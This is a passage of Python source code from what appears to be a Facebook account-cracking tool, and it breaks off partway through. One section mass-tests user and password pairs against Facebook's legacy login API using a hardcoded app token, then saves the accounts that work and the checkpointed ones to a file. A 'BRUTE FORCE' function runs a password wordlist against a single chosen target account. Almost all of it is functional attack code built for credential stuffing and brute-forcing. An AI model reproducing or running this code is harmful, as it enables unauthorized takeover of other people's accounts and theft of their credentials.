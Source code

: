                                                                                                                                          data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%252525257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                                                                                                                                         q = json.load(data)
                                                                                                                                         if 'access_token' in q:
                                                                                                                                                 x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
                                                                                                                                                 z = json.loads(x.text)
                                                                                                                                                 print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass8+" =>"+z['name'])
                                                                                                                                                 oks.append(user+pass8)
                                                                                                                                         else:
                                                                                                                                                 if 'www.facebook.com' in q["error_msg"]:
                                                                                                                                                         check_it = open("out/output.txt", "a")
                                                                                                                                                         check_it.write(user+"|"+pass8+"\n")
                                                                                                                                                         check_it.close()
                                                                                                                                                         checkpoint.append(user+pass8)

		except:
			pass

	p = ThreadPool(30)
	p.map(main, id)
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal OK/CP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(checkpoint))
	print("\033[1;91m[+] \033[1;92mCP File saved \033[1;91m: \033[1;97mout/output.txt")
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	super()
######################################################

##### BRUTE FORCE #####
def brute():
	global fb_token
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('clear')
	print logo
	try:
		email = raw_input("\033[1;91m[+] \033[1;92mID\033[1;97m/\033[1;92mEmail\033[1;97m/\033[1;92mHp \033[1;97mTarget \033[1;91m:\033[1;97m ")
		passw = raw_input("\033[1;91m[+] \033[1;92mWordlist \033[1;97mext(list.txt) \033[1;91m: \033[1;97m")
		total = open(passw,"r")
		total = total.readlines()
		print 42*"\033[1;97m═"
		print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mTarget \033[1;91m:\033[1;97m "+email
		print "\033[1;91m[+] \033[1;92mTotal\033[1;96m "+str(len(total))+" \033[1;92mPassword"
		mkdir('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
		sandi = open(passw,"r")
		for pw in sandi:
			try:
				pw = pw.replace("\n","")
				sys.stdout.write("\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack \033[1;91m: \033[1;97m"+pw)
				sys.stdout.flush()
				data = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(email)+"&locale=en_US&password="+(pw)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
				mpsh = json.loads(data.text)
				if 'access_token' in mpsh: